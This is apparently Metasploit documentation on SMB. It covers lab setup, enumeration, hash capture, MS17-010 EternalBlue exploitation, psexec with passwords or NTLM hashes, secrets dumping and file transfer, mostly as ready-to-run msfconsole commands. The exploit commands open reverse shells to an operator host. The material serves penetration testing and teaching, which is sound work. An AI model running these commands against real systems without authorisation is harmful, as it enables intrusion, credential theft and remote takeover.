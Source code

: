 ## SMB Workflows

SMB (Server Message Blocks), is a way for sharing files across nodes on a network.

There are two main ports for SMB:

- 139/TCP - Initially Microsoft implemented SMB ontop of their existing NetBIOS network architecture, which allowed for Windows computers to communicate across the same network
- 445/TCP - Newer versions of SMB use this port, were NetBIOS is not used.

Other terminology to be aware of:
- SMB - Serer Message Blocks
- CIFS - Common Internet File System
- Samba - A free software re-implementation of SMB, which is frequently found on unix-like systems

Metasploit has support for multiple SMB modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Capture modules
- Relay modules
- File transfer
- Exploit modules

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search mysql
```

### Lab Environment

When testing in a lab environment - SMB can be used on a Window's host machine, or within Docker.

For instance running Samba on Ubuntu 16.04:

```bash
docker run -it --rm --publish 127.0.0.1:139:139 --publish 127.0.0.1:445:445 ubuntu:16.04 /bin/bash
mkdir -p /tmp/foo
apt update
apt install -y samba
```

Verifying version is as expected:
```
$ samba --version
Version 4.3.11-Ubuntu
```

Configuring the share:
```bash
cat << EOF >> /etc/samba/smb.conf
[foo_share]
    comment = Foo samba share
    path = /tmp/foo
    read only = no
    browsable = yes
EOF
```

Restart the service:

```
service smbd restart
```

### SMB Enumeration

Enumerate SMB version:

```
use auxiliary/scanner/smb/smb_version
run smb://10.10.10.161
```

Enumerate shares:

```
use auxiliary/scanner/smb/smb_enumshares
run smb://10.10.10.161
run smb://user:pass@10.10.10.161
run 'smb://domain;user with spaces:pass@192.168.123.4' SMB::AlwaysEncrypt=false SMB::ProtocolVersion=1
```

Enumerate shares and show all files recursively:

```
use auxiliary/scanner/smb/smb_enumshares
run 'smb://user:pass with a space@10.10.10.161' showfiles=true spidershares=true
```

Enumerate users:

```
use auxiliary/scanner/smb/smb_enumusers
run smb://user:p4$$w0rd@192.168.123.13
```

[Enumerate gpp files](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smb/smb_enum_gpp.md) in a SMB share:

```
use auxiliary/scanner/smb/smb_enum_gpp
run smb://192.168.123.13/share_name verbose=true store=true
run smb://user:p4$$w0rd@192.168.123.13/share_name verbose=true store=true
```

### SMB Server

Create a mock SMB server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`. These hashes can then be cracked later:

```
use auxiliary/server/capture/smb
run
```

### SMB MS17-010

Metasploit has a module for MS17-010, dubbed Eternal Blue, which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10.

Checking for exploitability:

```
use auxiliary/scanner/smb/smb_ms17_010
check 10.10.10.23
check 10.10.10.0/24
check smb://user:pass@10.10.10.1/
check smb://domain;user:pass@10.10.10.1/
check cidr:/24:smb://user:pass@10.10.10.0 threads=32
```

As of 2021, Metasploit supports a single exploit module for which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10, full details within the [Metasploit Wrapup](https://www.rapid7.com/blog/post/2021/07/16/metasploit-wrap-up-121/):

```
use exploit/windows/smb/ms17_010_eternalblue
run 10.10.10.23 lhost=192.168.123.1
run 10.10.10.0/24 lhost=192.168.123.1 lport=5000
run smb://user:pass@10.10.10.1/ lhost=192.168.123.1
run smb://domain;user:pass@10.10.10.1/ lhost=192.168.123.1
```

### SMB psexec

Running psexec against a remote host with credentials:

```
use exploit/windows/smb/psexec
run smb://user:pass8@192.168.123.13 lhost=192.168.123.1 lport=5000
```

Running psexec with NTLM hashes:

```
use exploit/windows/smb/psexec
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6@10.10.10.161 lhost=10.10.14.13 lport=5000
```

### SMB Dumping

Dumping secrets with credentials:

```
use auxiliary/gather/windows_secrets_dump
run smb://user:pass@192.168.123.6
```

Dumping secrets with NTLM hashes

```
use auxiliary/gather/windows_secrets_dump
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:15feae27e637cb98ffacdf0a840eeb4b@192.168.123.1
```

### SMB Files

Download a file:

```
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
```

Upload a file:

```
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
```
